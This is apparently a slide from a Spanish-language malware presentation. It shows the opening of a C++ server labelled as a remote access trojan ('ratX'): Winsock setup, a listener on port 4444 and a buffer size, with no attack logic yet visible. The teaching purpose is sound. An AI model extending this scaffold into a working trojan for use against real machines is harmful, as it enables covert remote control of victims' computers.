

# Ejemplo de programa (servidor)
// ratX - C++ rat (para Windows 10 presentación de malware)
#include <iostream>
#include <winsock2.h>
#include <string>

#pragma comment(lib, "ws2_32.lib") // Enlaza la librería Winsock para manejo de sockets

#define PORT 4444 // Puerto donde el servidor escuchará conexiones entrantes
#define BUFFER_SIZE 8192  // Tamaño del buffer de datos (8KB)

// Función para inicializar Winsock
void initWinsock() {
    WSADATA wsa;
    if (WSAStartup(MAKEWORD(2, 2), &wsa) != 0) {
        std::cerr << "Error al inicializar Winsock" << std::endl;
        exit(1);
    }
}